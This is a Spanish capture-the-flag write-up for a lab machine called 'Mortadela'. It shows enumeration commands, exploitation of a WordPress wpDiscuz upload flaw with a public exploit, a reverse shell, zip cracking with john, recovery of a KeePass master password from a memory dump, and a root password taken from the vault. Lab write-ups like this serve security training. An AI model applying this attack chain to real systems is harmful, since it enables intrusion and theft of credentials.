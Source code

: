 ```yaml
---
title: "Mortadela - WriteUp"
date: Fri Aug 23 2024 10:13:12 GMT (Central European Summer Time)
categories: [WriteUps, TheHackerLabs, Linux]
tags: [wordpress, CVE-2020-24186, CVE-2023-32784, dotnet, keepass-password-dumper]
image: /assets/img/cabeceras/2024-08-23-mortadela---writeup.jpg
---
```


## Enumeración

NMAP

```bash
# Nmap 7.94SVN scan initiated Fri Apr  5 09:59:23 2024 as: nmap -sCV -p 22,80,3306 --stylesheet=https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/stable/nmap-bootstrap.xsl -oN targeted -oX targetedXML 192.168.1.44
Nmap scan report for 192.168.1.44
Host is up (0.00053s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 aa:8d:e4:75:bc:f3:f8:5e:42:d0:ee:ca:e2:c4:0b:97 (ECDSA)
|_  256 ae:fd:91:ef:42:71:cb:11:b9:66:97:bf:ec:5b:d6:4b (ED25519)
80/tcp   open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
3306/tcp open  mysql   MySQL 5.5.5-10.11.6-MariaDB-0+deb12u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.11.6-MariaDB-0+deb12u1
|   Thread ID: 33
|   Capabilities flags: 63486
|   Some Capabilities: SupportsLoadDataLocal, LongColumnFlag, Support41Auth, IgnoreSpaceBeforeParenthesis, SupportsTransactions, Speaks41ProtocolOld, DontAllowDatabaseTableColumn, Speaks41ProtocolNew, SupportsCompression, FoundRows, IgnoreSigpipes, InteractiveClient, ConnectWithDatabase, ODBCClient, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: yi~aH%{bWnCA^76IK}Sf
|_  Auth Plugin Name: mysql_native_password
MAC Address: 00:0C:29:0E:4B:CF (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

FUZZ 

Descubrimos que corre un Wordpress:
```bash
$ dirsearch -u http://192.168.0.108 -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 60 --full-url
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405113824.png)

Hacemos un escaneo de plugins con NMAP y descubrimos dos, pero uno nos llama la atneción:

```bash
$ nmap -p80 192.168.0.108 --script http-wordpress-enum --script-args http-wordpress-enum.root='/wordpress/',search-limit=1000
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114001.png)


## Explotación

Buscamos vulnerabilidades y encontramos dos que se adaptan perfectamente a la versión:

```bash
$ se wpdiscuz
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114143.png)

Probamos el SearSploit pero no nos convence. Vamos a buscar por la web.

Encontramos este y nos funciona perfectamente. Creamos el archivo con la URL y ejecutamos el plugin.

https://github.com/meicookies/CVE-2020-24186

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114418.png)

```bash
$ ./CVE-2020-24186 site.txt
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114501.png)

Vemos que es vulnerable y nos ha subido un archivo PHP con el que poder subir archivos.

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114541.png)

Vamos a probar de subir un shell remoto. El por defecto en estos casos.

Nos ponemos a la espera, subimos el archivo PHP con la web que hemos creado y pa dentro!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405114917.png)

Sanitizamos consola y empezamos a enumerar:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405115151.png)

Encontramos un archivo sospechoso en /opt...

Nos lo bajamos a nuestro equipo y vemos que tiene contraseña. Le pasamos john...

```bash
$ zip2john muyconfidencial.zip > confidencial.hash
...
$ john --wordlist=/usr/share/wordlists/rockyou.txt confidencial.hash
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405120859.png)

Contraseña de descompresión: _pinkgirl_

Descomprimimos y mostramos el contenido:

Contiene dos archivos, un dumpeo de keepass y otro que es la BBDD de Keepass:

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405121117.png)

Buscamos info y encontramos esto:
https://github.com/vdohney/keepass-password-dumper

Debemos emular un proyecto hecho en C# y pasarle el DUMP del Keepass. Con este programa llamado _dotnet_ creamos una lista de posibles contraseñas para romper la seguridad de la base de datos del Keepass.

Instalamos _dotnet_ para Linux:
https://learn.microsoft.com/en-us/dotnet/core/install/linux-scripted-manual#manual-install

Nos clonamos el repositorio arriba mencionado y ejecutamos lo siguiente:

```bash
$ dotnet run ../KeePass.DMP passwordlist 
```

-----
## Notas

Si recibimos el error del tipo:

_"/usr/share/dotnet/sdk/6.0.400/Sdks/Microsoft.NET.Sdk/targets/Microsoft.NET.TargetFrameworkInference.targets(144,5): error NETSDK1045: The current .NET SDK does not support targeting .NET 7.0.  Either target .NET 6.0 or lower, or use a version of the .NET SDK that supports .NET 7.0."_

Simplemente editamos el archivo _.csproj_ y en la línea con la etiqueta < TargetFramework > indicamos la versión que tengamos, en mi caso tuve que poner la net6.0

---------

Recibiremos la siguiente salida:

```bash
Found: ●9
Found: ●;
Found: ●H
Found: ●[
Found: ● 
Found: ●f

Password candidates (character positions):
Unknown characters are displayed as "●"
1.:	●
2.:	a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f, 
3.:	r, 
4.:	i, 
5.:	t, 
6.:	r, 
7.:	i, 
8.:	n, 
9.:	i, 
10.:	1, 
11.:	2, 
12.:	3, 
13.:	4, 
14.:	5, 
Combined: ●{a, Ï, §, ñ, D, , \, #, y, k, 9, ;, H, [,  , f}ritrini12345
16 possible passwords saved in passwordlist. Unknown characters indicated as ●
```

Casi casi tenemos el password. Ahora con con _john_ y _hashcat_ terminaremos la faena:


## Escalada

Obtenemos el hash de la BBDD de Keepass (archivo Database.kdbx):

```bash
$ keepass2john Database.kdbx > database.hash
```

Y por último pasamos _hashcat_ :

```bash
$ hashcat -m 13400 --username database.hash passwordlist
```

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405124929.png)

Aunque nos haya dado "Exhausted" y nos falte el primer carácter del password podemos intuir cuáles son los candidatos a password final:

```http
Maritrini12345
maritrini12345
```

Abrimos el archivo .kdbx con Keepass o en mi caso ya que trabajo en Linux con _KeePassXC_ y en contraseña probamos la primera con la M mayúscula y bingo! Entramos en la BBDD!

Y nos muestra con gran afecto el password de root!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125330.png)

Credenciales:

```http
root:Juanikonokukunero
```

Las probamos en nuestra consola y...

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405125511.png)

Enhorabuena! somos root!

Ya podemos registrar las flags!

![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130451.png)



![image](/assets/img/2024-08-23-mortadela---writeup/pasted-image-20240405130041.png)

